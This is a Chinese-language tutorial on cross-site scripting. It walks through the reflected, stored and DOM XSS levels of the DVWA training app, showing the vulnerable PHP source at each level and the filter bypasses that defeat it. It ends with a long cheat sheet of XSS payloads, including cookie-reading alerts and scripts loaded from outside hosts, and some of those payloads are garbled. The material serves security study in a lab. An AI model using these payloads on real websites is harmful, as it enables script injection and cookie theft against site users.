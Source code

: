```yaml
---
title:XSS简介
date:2019-3-18
tags:XSS

---
```

### 跨站脚本攻击-XSS,全称Cross site scripting，特殊的注入攻击，相当于在代码中注入恶意的脚本，当用户访问页面时，在浏览器中触发并解析代码，完成攻击。xss根据不同的攻击形式分为反射型xss、存储型xss、Dom型Xss。
**1.反射型XSS：非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。**

**2.存储型XSS：存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie（虽然还有种DOM型XSS，但是也还是包括在存储型XSS内）。**

**3.DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。**

_具体内容可以看`https://www.zhihu.com/question/26628342`个人觉得说的还不错_



### 反射型xss

- low 

```
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
``` 

_显然没有做任何的防护措施_

**攻击方法：**

```
<script>alert('XSS')</script> 
'><script>alert(document.cookie)</script>
<IFRAME SRC=javascript:alert(‘XSS’)></IFRAME>//框架注入
"> <BODY ONLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><" 
<A HREF=http://127.0.0.1/phpinfo.php>link</A> //链接注入
<img src=1 onerror=alert(2)> //图片注入
```
**显然低等级的对以上注入方法都是可以做到的**

- medium

```
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
} 
```

**我们可以看到中等级过滤了<script>,这时我能想到的有两种解决办法：**

1.大小写替换，诸如<SCRiPt>之类的

2.写两次：<scr<script>ipt>替换

—除了含有script的需要注意一下，其他注入方法可以正常执行—

- high

```
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
} 
```

**这里是用正则表达式做替换，使用通配符，对script相关的替换掉，但对事件型的构造语句没有进行过滤,如：**

```
<A HREF=http://127.0.0.1/phpinfo.php>link</A> //链接注入
<img src=1 onerror=alert(2)> //图片注入
```

- impossible 

```
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>"; 
```

**严格，加了token，htmlspecialchars（）可对输入参数进行实体转义，输入的<,>等都是会当做实体字符输出,目前并没有想到绕过的办法**

### 存储型XSS

**首先先列出几种攻击方法：**

```
<script>alert('XSS')</script> 
'><script>alert(document.cookie)</script>
<IFRAME SRC=javascript:alert(‘XSS’)></IFRAME>//框架注入
"> <BODY ONLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><" 
<A HREF=http://127.0.0.1/phpinfo.php>link</A> //链接注入
<img src=1 onerror=alert(2)> //图片注入
```

- low 

```
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
    //mysql_close();
}

```

**显然没有经过防护所有的攻击手段都是可行的**

- medium 

```
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );
    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
} 
```

**这里message的防住入做的很棒：**

addslashes() 函数返回在预定义字符之前添加反斜杠的字符串
htmlspecialchars() 函数把预定义的字符转换为 HTML 实体

当然，虽然message不太好搞，但是name的防护措施只做了一个str_replace( '<script>', '', $name )，根据反射型xss的经验，可以对script进行大小写和双写的绕过。虽然name是有长度限制的，但只要我们再进行一下抓包改包发包即可完成，具体过程不再赘述。

- high

```
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?> 
```
**有了medium处的教训，这里不再把精力浪费在message上。对于name处的注入可参照反射型xss的high等级。**

### Dom型XSS

- Low 

```
<?php

# No protections, anything goes

?> 
```

**对于低等级，没有任何防护措施，我们选择直接xss**

`http://localhost/DVWA-master/vulnerabilities/xss_d/?default=<script>alert('xss')</script>`

- medium

```
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?> 
```

**可以看到这里只要一出现'<script'就会自动替换成默认值：‘English’，并且是区分大小写的。所以这里换一种方法，使用不含<script>的注入方式**

**如果直接用<img src=1 onerror=alert('xss')>不会出现，这里可以通过查看源代码闭合标签从而达到我们想要的效果**

`http://localhost/DVWA-master/vulnerabilities/xss_d/?default=></option></select><img src=1 onerror=alert('xss')>`

### XSS注入常用语句

```
<script>alert('hello，gaga!');</script> //经典语句，哈哈！
>"'><img src="javascript.:alert('XSS')">
>"'><script>alert('XSS')</script>
<table background='javascript.:alert(([code])'></table>
<object type=text/html data='javascript.:alert(([code]);'></object>
"+alert('XSS')+"
'><script>alert(document.cookie)</script>
='><script>alert(document.cookie)</script>
<script>alert(document.cookie)</script>
<script>alert(vulnerable)</script>
<script>alert('XSS')</script>
<img src="javascript:alert('XSS')">
%0a%0a<script>alert(\"Vulnerable\")</script>.jsp
%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html
<script>alert('Vulnerable')</script>
a.jsp/<script>alert('Vulnerable')</script>
"><script>alert('Vulnerable')</script>
<IMG SRC="javascript.:alert('XSS');">
<IMG src="/javascript.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"("XSS")>
<IMG SRC="jav	ascript.:alert('XSS');">
<IMG SRC="jav ascript.:alert('XSS');">
<IMG SRC="jav ascript.:alert('XSS');">
"<IMG src="/java"\0script.:alert(\"XSS\")>";'>out
<IMG SRC=" javascript.:alert('XSS');">
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
<BODY BACKGROUND="javascript.:alert('XSS')">
<BODY ONLOAD=alert('XSS')>
<IMG DYNSRC="javascript.:alert('XSS')">
<IMG LOWSRC="javascript.:alert('XSS')">
<BGSOUND SRC="javascript.:alert('XSS');">
<br size="&{alert('XSS')}">
<LAYER SRC="http://xss.ha.ckers.org/a.js"></layer>
<LINK REL="stylesheet"HREF="javascript.:alert('XSS');">
<IMG SRC='vbscript.:msgbox("XSS")'>
<META. HTTP-EQUIV="refresh"CONTENT="0;url=javascript.:alert('XSS');">
<IFRAME. src="/javascript.:alert"('XSS')></IFRAME>
<FRAMESET><FRAME. src="/javascript.:alert"('XSS')></FRAME></FRAMESET>
<TABLE BACKGROUND="javascript.:alert('XSS')">
<DIV STYLE="background-image: url(javascript.:alert('XSS'))">
<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html');">
<DIV STYLE="width: expression(alert('XSS'));">
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE='xss:expre\ssion(alert("XSS"))'>
<STYLE. TYPE="text/javascript">alert('XSS');</STYLE>
<STYLE. TYPE="text/css">.XSS{background-image:url("javascript.:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE. type="text/css">BODY{background:url("javascript.:alert('XSS')")}</STYLE>
<BASE HREF="javascript.:alert('XSS');//">
getURL("javascript.:alert('XSS')")
a="get";b="URL";c="javascript.:";d="alert('XSS');";eval(a+b+c+d);
<XML SRC="javascript.:alert('XSS');">
"> <BODY NLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
<SCRIPT. SRC="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>
<IMG SRC="javascript.:alert('XSS')"
<SCRIPT. a=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT.=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT. a=">"''SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT."a='>'"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
```
